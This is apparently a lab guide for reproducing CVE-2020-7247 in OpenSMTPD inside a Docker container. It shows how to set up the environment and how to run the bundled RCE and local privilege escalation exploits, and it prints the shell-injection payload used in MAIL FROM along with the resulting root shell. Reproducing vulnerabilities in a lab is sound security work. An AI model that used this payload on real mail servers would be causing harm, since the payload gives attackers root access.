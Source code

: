 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment

```shell
python decret.py --number 2020-7247 --release bullseye --directory opensmtpd --selenium
```

Once in the container, we can try to start opensmtpd.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually a small issue with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_2_verified`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/# python /tmp/decret/exploit_2_verified  127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_0_verified`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/# su toto
toto@cve-2020-7247:/$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.
